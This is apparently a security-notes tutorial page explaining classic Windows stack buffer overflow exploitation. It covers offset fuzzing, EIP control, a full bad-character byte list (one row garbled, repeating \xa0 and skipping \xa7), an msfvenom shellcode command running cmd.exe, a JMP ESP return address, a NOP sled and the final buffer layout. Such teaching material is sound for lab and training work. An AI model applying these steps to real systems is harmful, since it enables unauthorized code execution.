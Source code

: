 # Windows Buffer Overflow

First, create a payload that will 100% overflow the buffer. It could be either generated with msfvenom or with continous "A"s. I prefer the A's because it guarantees no bad characters in case the program filters those out.&#x20;

Then, start to binary search or just search for the offset that will just overflow the buffer. Then, try to control EIP with `b'\xef\xbe\xad\xde'` and see if Immunity Debugger shows it. If it does, we can move on.

I will set an offset of `b'\x43'*4`, which isn't completely necessary but is helpful. Now, I can start fuzzing for bad characters.

```
badchars = b""
badchars+=b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars+=b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars+=b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars+=b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars+=b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars+=b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars+=b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars+=b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars+=b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars+=b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars+=b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa8\xa9\xa0\xaa\xab\xac\xad\xae\xaf"
badchars+=b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars+=b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars+=b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars+=b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars+=b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Remove x00 by default and probably x0a, and then look where the string of where it terminates to remove that bad character.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

You can see that after 0x09, the string of bytes terminates, so you can conclude that 0x0a is a bad character. Once you eliminate all of those, you can move onto shellcode.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="cmd.exe" -f py -b "\x00\x0a\x73\x95\xba\xf7" -v shellcode 
```

Paste this into your program. Also, we will need to find EIP. This just means to find a JMP ESP instruction, which could be at 0x148011b6, and then reverse every 2 bytes to get `eip = b'\xb6\x11\x80\x14'` Now we can add a NOP sled with `nops = b"\x90" * 10` and then create our final buffer.

```
inputBuffer = filler + eip + offset + nops + shellcode
```

And you are complete.
